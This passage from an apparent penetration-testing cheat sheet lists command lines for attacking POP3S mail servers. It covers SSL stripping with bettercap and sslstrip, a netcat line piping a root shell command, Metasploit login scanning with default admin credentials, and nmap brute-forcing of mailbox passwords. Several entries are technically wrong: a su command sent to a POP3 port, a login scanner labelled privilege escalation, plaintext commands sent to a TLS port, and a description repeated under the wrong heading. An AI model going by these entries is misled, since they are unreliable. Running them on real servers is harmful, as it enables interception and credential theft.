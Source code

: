 ### SSL Strip Attack
- **Tool:** [[BetterCap Cheat Sheet]], [[SSLStrip Cheat Sheet]]
    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    
    sslstrip -l 995
    ```
- **Description:** Stripping SSL from connections in a man-in-the-middle attack, forcing clients to connect over unencrypted channels.

## Privilege Escalation

### Abuse of Privileged Accounts
- **Tool:** [[Custom Scripts]]
    ```bash
    echo "su root -c '/bin/sh'" | nc <target_ip> 110
    ```
- **Description:** If a privileged account is compromised, escalate privileges by executing commands with elevated rights.

### Abusing POP3S Admin Accounts
- **Tool:** [[Metasploit]]
     ```bash
     use auxiliary/scanner/pop3/pop3_login
     set USERNAME admin
     set PASSWORD admin123
     run
     ```
- **Description:** If admin-level credentials are obtained via POP3S, they can be leveraged for privilege escalation on the mail server.

## Internal Reconnaissance

### Mailbox Enumeration
- **Tool:** [[NetCat]], [[Telnet]]
    ```bash
    echo "STAT" | nc <target_ip> 995
    ```
- **Description:** Enumerate mailbox details such as the number of messages and total size to gather information about the target’s email usage.

### Email Enumeration
- **Tool:** [[Nmap]]
    ```bash
    nmap <target_ip> -p 995 --script pop3-brute --script-args userdb=<username_file>,passdb=<password_file>
    ```
- **Description:** Enumerate mailbox details such as the number of messages and total size to gather information about the target’s email usage.
